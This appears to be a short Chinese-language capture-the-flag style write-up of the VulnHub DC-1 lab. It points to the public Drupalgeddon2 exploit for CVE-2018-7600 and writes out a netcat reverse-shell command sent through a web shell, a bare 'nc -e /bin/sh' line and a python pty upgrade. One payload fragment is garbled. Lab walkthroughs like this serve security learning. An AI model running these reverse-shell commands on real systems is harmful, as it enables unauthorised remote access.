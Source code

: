 ```yaml
---
title: "VulnHub-DC1"
date: 2022-03-20
categories: [滲透測試]
tags: [Vulnhub]
ShowToc: true
TocOpen: true
---
```


# 發現有 port 80 -\> 直接瀏覽網頁

# 使用 wappalyzer 得知使用 Drupal 7

# 搜尋已知 Exploit 來取得 RCE

- CVE-2018-7600

  > Exploit:https://github.com/dreadlocked/Drupalgeddon2

# ls -\> 發現 flag1

# 發現有 shell.php

```line-numbers
&1 ');}>
```

# 使用 nc 監聽取回 reverse shell(python pty)

```line-numbers
http://10.0.2.4/shell.php?c=nc%20-e%20%2Fbin%2Fsh%2010.0.2.15%208080
nc -e /bin/sh 10.0.2.15 8080
python -c "import pty;pty.spawn('/bin/bash')"
```
